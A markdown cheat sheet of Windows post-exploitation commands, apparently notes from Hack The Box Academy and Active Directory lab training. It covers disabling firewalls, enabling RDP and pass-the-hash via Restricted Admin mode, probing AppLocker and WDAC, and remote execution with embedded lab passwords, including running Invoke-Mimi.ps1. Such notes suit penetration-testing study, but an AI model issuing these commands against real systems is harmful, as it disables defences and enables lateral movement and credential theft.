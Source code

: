 - Disable Firewall
`Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-Out" -Direction Outbound -Protocol TCP -Action Allow -LocalPort 8080`

- Enable RDP
`Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Terminal Server' fDenyTSConnections 0`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (TCP-In)'`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (UDP-In)'`

- Enable Restricted Admin Mode to Allow PtH
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

- Enumerate PowerShell Language Mode
`$ExecutionContext.SessionState.LanguageMode`

- Query Applocker Policies in the Registry
`reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2`

- Check for WDAC
`Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard`

- Bypass WDAC Bby trying Microsoft signed Binaries and Scripts - see the [LOLBAS project](https://lolbas-project.github.io/).
#### Access Machines Remotely
- Remote access via SSH
`ssh htb-student@10.129.176.110`

- Remote access via RDP
`xfreerdp /v:10.129.201.234 /u:htb-student /p:'Academy_student_AD!'`
(if xfreerdp is not working → (`apt reinstall freerdp2-x11`)

- Specify credentials for another user
`$passwd = ConvertTo-SecureString -AsPlainText -Force -String <PASSWORD>`
`$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Domain\User",$passwd`
`$session = new-pssession -computername SQLSRV3.GLACIS.CORP -credential $cred`

- Access another computer remotely in the context of our current user
`winrs -r:us-mailmgmt cmd`

- Access another computer remotely in the context of a local user on that computer
`winrs -r:us-mailmgmt -u:.\administrator -p:t7HoBF+m]ctv.] cmd`

- Run commands on a remote computer.
`Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <COMPUTER> -Credential $cred`

- Run a PowerShell script on a remote computer.
`Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt`
